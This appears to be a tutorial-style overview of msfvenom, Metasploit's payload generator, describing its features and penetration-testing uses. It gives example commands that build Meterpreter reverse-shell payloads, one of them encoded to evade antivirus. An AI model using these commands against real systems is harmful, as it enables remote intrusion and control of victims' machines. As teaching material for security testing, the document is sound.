 ## Overview of Msfvenom

Msfvenom is a versatile tool that is part of the Metasploit Framework, widely used for creating and managing payloads for penetration testing and security assessments. It combines the functionalities of two previous tools, `msfpayload` and `msfencode`, into a single command-line utility, allowing users to generate various types of payloads and encode them to evade detection by security systems.
### Key Features

1. **Payload Generation**: Msfvenom can create a wide range of payloads for different platforms, including Windows, Linux, macOS, and Android. This includes reverse shells, bind shells, and Meterpreter sessions.

2. **Encoding Options**: The tool provides multiple encoding options to obfuscate payloads, making them less detectable by antivirus software and intrusion detection systems. Users can choose from various encoders to suit their needs.

3. **Customizable Payloads**: Users can customize payloads by specifying options such as the target IP address, port number, and other parameters, allowing for tailored attacks based on the target environment.

4. **Output Formats**: Msfvenom supports various output formats, including executable files, scripts, and raw shellcode. This flexibility enables users to deploy payloads in different ways depending on the target system.

5. **Integration with Metasploit**: As part of the Metasploit Framework, Msfvenom seamlessly integrates with other Metasploit modules, allowing users to launch attacks and manage sessions effectively.
### Common Use Cases

- **Penetration Testing**: Security professionals use Msfvenom to generate payloads for testing the security of systems and applications, identifying vulnerabilities that could be exploited by attackers.

- **Red Team Operations**: In red team exercises, Msfvenom is employed to simulate real-world attacks, helping organizations understand their security posture and improve defenses.

- **Exploit Development**: Developers and researchers can use Msfvenom to create custom payloads for testing new exploits or vulnerabilities in controlled environments.
### Example Commands

1. **Generate a Reverse Shell Payload**:
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o shell.exe
   ```

2. **Encode a Payload**:
   ```
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai -f elf -o payload.elf
   ```

3. **Create a Payload in Python**:
   ```
   msfvenom -p python/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f raw
   ```
### Considerations

While Msfvenom is a powerful tool for security testing, it should be used ethically and responsibly. Unauthorized use against networks or systems without permission is illegal and can lead to severe consequences. Always ensure that you have explicit permission before conducting any penetration testing activities.

In summary, Msfvenom is an essential tool for penetration testers and security professionals, providing the ability to generate and customize payloads for various platforms. Its integration with the Metasploit Framework and extensive encoding options make it a valuable asset for identifying and mitigating vulnerabilities in target systems.